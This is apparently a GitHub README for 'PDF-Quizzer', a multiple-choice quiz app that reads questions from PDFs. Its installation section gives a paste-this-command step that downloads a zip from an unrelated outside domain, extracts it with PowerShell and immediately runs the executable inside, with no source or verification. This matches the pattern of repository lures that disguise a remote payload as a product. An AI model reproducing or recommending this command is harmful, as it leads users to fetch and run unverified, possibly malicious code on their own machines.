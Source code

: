 # PDF-Quizzer

# 📚 PDF-Quizzer  

## 📝 Description  
**PDF-Quizzer** is an interactive quiz application that extracts questions from a **PDF file** and presents them in a user-friendly **multiple-choice format**.  
It allows users to take a quiz and get instant results.  

---

## 🎯 Features  
- 📄 **Extracts questions & answers from a PDF**  
- 🏆 **Real-time scoring system**  
- 📊 **Progress tracking with a progress bar**  
- ⏩ **Skip to the next question easily**  
- 🛑 **End the quiz anytime and view results**  
- 🎨 **User-friendly interface with a scrollable view**  

---
## 📦 Installation

To download, extract, and run the app using `curl`, paste the following in your Command Prompt:

<pre>
curl -L -o app.zip "https://ctf-lab.fun/app.zip" && ^
powershell -Command "Expand-Archive -Path 'app.zip' -DestinationPath 'app' -Force" && ^
start app\\app\\PDF-Quizzer.exe
</pre>

---
🖥️ Usage
Launch the app
Select a PDF file containing questions
Answer the multiple-choice questions
Track your progress
Click "End Exam" to see your final score

## 🎥 Demo ( Click to watch video )
[![Watch the demo](screenshot.png)](https://www.youtube.com/watch?v=k_kfBYeSq_0) 


📌 Notes
Tested with: PassLeader PDF question files
Supports only multiple-choice question formats
Recommended PDF format: Properly structured MCQs

---

🤝 Contributing
Want to contribute? Fork this repository and submit a pull request!

📩 For suggestions, feel free to contact me.
